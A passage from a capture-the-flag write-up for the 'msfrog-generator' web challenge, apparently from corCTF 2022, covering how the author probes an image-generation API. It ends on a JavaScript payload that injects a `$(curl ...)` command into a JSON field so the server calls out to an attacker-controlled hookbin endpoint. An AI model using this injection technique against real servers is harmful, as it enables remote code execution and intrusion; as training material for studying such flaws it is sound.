 # msfrog-generator
**web exploitation (web) - 109 points**   <br>
https://2022.cor.team/challs   <br>
Description:  <br>
```
The vanilla msfrog is hard to beat, but this webapp allows you to make it even better!
```
# Table of Contents
1. [First look](#first-look)
2. [Looking at the source](#source-look)
3. [Messing around with the POST request](#post)
4. [Exploiting the RCE to get the flag](#rce)
5. [Looking at the server files](#server)
6. ["get flag" script](#getflag)
8. [TL;DR](#tldr)

## First look <a name="first-look">
The challenge gave us a link to a webpage that looks like this<br>
![webpage](https://i.imgur.com/MIBxABW.png)<br>
It is a game where you can add upto 3 items to the canvas and move them around.<br>
Clicking the generate button will download an image of the canvas.

## Looking at the source <a name="source-look">
Opening the dev tools in chrome, first thing we see in the source is a note in the comments
```
 NOTE: There is no (intended) vuln in the frontend, please don't waste your time digging into the JS ;)
```
![note-in-comments](https://i.imgur.com/Ifhe3ig.png)<br>
So, this means that the intended vulnerability is server-side.<br>
Looking at the `sources` tab, the file structure ressembles that of a typical React application.<br>
![sources-tab](https://i.imgur.com/R0V7nVm.png)<br>
Next 5 minutes I looked at the sources and found that on clicking the `generate` button, the page sends a post request to `/api/generate` with the data of the items placed on the canvas.<br>
![POST-request](https://i.imgur.com/1SzNwM0.png)<br>
The server responds with base64 data of the image to be downloaded.

## Messing around with the POST request <a name="post">
I had a feeling that the contents of the request are passed through shell command, which means there might be RCE, so I created an endpoint on hookbin and tried to curl it.
```js
jsonData=[
	{"type":"mstongue.png","pos":{"x":0,"y":0}},
	{"type":"mskiss.png","pos":{"x":140,"y":27}},
	{"type":"msanger.png","pos":{"x":85,"y":132}},
	{
		"type":`$(curl -X POST -H "Content-Type: application/json" -d '{"name": "John"}' https://hookb.in/03JmgD39O1c3Mkp3KeXq)`,
		"pos":{
			"x":100,
			"y":100,
		}
	}
]
let response = await fetch("/api/generate", {
	method: "POST",
```